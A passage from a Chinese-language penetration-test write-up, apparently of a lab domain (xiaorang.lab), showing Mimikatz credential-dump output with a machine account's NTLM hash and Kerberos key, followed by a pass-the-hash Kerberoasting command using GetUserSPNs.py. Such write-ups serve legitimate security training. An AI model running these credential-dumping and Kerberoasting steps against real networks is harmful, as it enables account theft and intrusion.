 也不行，可能是版本问题，试了很多版本

最终在 2.2 的某个版本成功执行，是这个应该 (下载的太多了，不记得具体哪个了)

[https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz\_trunk.zip](https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip)

### 信息搜集

使用 Mimikatz 获取密码

[![](assets/1706233449-5f38b54b964293da96d933d8c303a2ca.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143914-4a5c9a90-ba83-1.png)

发现一个机器账户

```bash
Authentication Id : 0 ; 832440 (00000000:000cb3b8)
Session           : Interactive from 2
User Name         : DWM-2
Domain            : Window Manager
Logon Server      : (null)
Logon Time        : 2024/1/24 10:40:31
SID               : S-1-5-90-0-2
    msv :   
     [00000003] Primary
     * Username : XR-0923$
     * Domain   : XIAORANG
     * NTLM     : b2caa4c3f6d5e97bf7c58f7db9e24317
     * SHA1     : 00e3cf78689e875da3f43a5b62cc919990b52a6b
    tspkg : 
    wdigest :   
     * Username : XR-0923$
     * Domain   : XIAORANG
     * Password : (null)
    kerberos :  
     * Username : XR-0923$
     * Domain   : xiaorang.lab
     * Password : c8 9c 74 62 4b a5 13 60 f8 9f 61 ee 0c 9c b4 ca 97 d7 4c 53 6a 10 4e e7 74 03 51 0a 95 3f 78 af 15 22 5d 7f 0c 10 c9 96 19 7a bd 28 d7 c8 9a b7 ec 04 fb a9 18 83 30 e1 d9 75 aa ed c1 81 d0 76 c3 70 6c 68 35 e9 16 66 bd fe c7 92 78 59 be 9b 0b 65 91 10 8b 5b c4 8f 18 32 72 a6 cb bb c1 b0 96 0f 1d 63 bf 8f e8 4f 9b 7b 6a 7c 0a e8 2e 9a 40 d7 36 7d 2e 7a 0c 99 21 ca 64 27 b9 df 77 c6 f7 47 19 d7 bb 05 d6 4b ca e6 70 4b 62 5f 1c f8 78 b9 33 a2 f7 9e e5 77 78 db f9 cd b1 73 e9 b2 df 35 67 5e b0 12 85 ac 59 db 4c 53 8e 2d 6a d4 d3 93 f5 61 30 ee f5 53 d0 2a ae cf 50 83 92 31 ad 67 17 7a 21 58 dc 62 96 2f f2 1c 1e bc 05 1b 43 48 91 5d c1 06 1d 71 73 c0 fa 04 66 59 e9 35 04 a9 50 a5 79 70 06 7b ea 3a ea 0c 44 4c 01 63 
    ssp :   
    credman :   
    cloudap :
```

### Kerberoasting 攻击

```bash
proxychains GetUserSPNs.py xiaorang.lab/'XR-0923$' -hashes :b2caa4c3f6d5e97bf7c58f7db9e24317 -dc-ip 172.22.14.11
```
